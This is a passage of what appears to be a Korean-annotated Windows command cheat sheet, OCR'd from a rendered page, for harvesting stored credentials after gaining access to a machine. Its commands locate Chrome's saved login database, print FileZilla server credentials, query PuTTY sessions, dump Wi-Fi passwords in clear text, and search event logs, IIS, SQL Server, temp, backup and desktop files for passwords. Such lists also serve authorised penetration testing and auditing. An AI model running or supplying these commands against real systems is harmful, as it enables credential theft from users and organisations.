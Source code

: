 ```cmd
dir /b /s "%LOCALAPPDATA%\Google\Chrome\User Data\Default\Login Data" 2>nul

:: 7. FileZilla 저장된 자격 증명
type "%APPDATA%\FileZilla\sitemanager.xml" 2>nul
type "%APPDATA%\FileZilla\recentservers.xml" 2>nul

:: 8. PuTTY 저장된 세션
reg query "HKCU\SOFTWARE\SimonTatham\PuTTY\Sessions"

:: 9. 무선랜 프로필 (패스워드 포함)
netsh wlan show profiles
for /f "tokens=2 delims=:" %i in ('netsh wlan show profiles ^| findstr "All User Profile"') do @netsh wlan show profile name=%i key=clear
```

### 🔍 로그 파일에서 민감 정보 검색

```cmd
:: 1. Windows 이벤트 로그에서 패스워드 검색
wevtutil qe Security /q:"*[EventData[Data='password']]" /f:text 2>nul | findstr /i password

:: 2. IIS 로그 파일 검색
dir /b /s C:\inetpub\logs\LogFiles\*.log 2>nul
findstr /i "password\|pass\|pwd" "C:\inetpub\logs\LogFiles\W3SVC1\*.log" 2>nul

:: 3. SQL Server 로그
dir /b /s "C:\Program Files\Microsoft SQL Server\*\Log\*.log" 2>nul
findstr /i "password\|login\|sa" "C:\Program Files\Microsoft SQL Server\MSSQL\Log\ERRORLOG" 2>nul

:: 4. 애플리케이션 로그 디렉토리
dir /b /s C:\Logs\*.log 2>nul
dir /b /s C:\Log\*.log 2>nul
findstr /i "password\|pass\|pwd\|user" C:\Logs\*.log 2>nul

:: 5. 시스템 임시 파일들
dir /b /s %TEMP%\*.log 2>nul
dir /b /s C:\Windows\Temp\*.log 2>nul
findstr /i "password\|pass" %TEMP%\*.* 2>nul

:: 6. 설치 로그 파일들
dir /b /s C:\Windows\Logs\*.log 2>nul
findstr /i "password\|pass" "C:\Windows\Logs\DISM\dism.log" 2>nul

:: 7. 크래시 덤프 파일
dir /b /s C:\Windows\Minidump\*.dmp 2>nul
dir /b /s C:\*.dmp 2>nul

:: 8. 백업 파일들
dir /b /s C:\*backup* 2>nul | head -20
dir /b /s C:\*.bak 2>nul | head -20

:: 9. 임시 사용자 파일들
dir /b /s C:\Users\*\Desktop\*.txt 2>nul
dir /b /s C:\Users\*\Documents\*.txt 2>nul
findstr /i "password\|pass" "C:\Users\*\Desktop\*.txt" 2>nul

:: 10. Git 저장소 (코드에 하드코딩된 자격 증명)
dir /b /s C:\*.git 2>nul
```
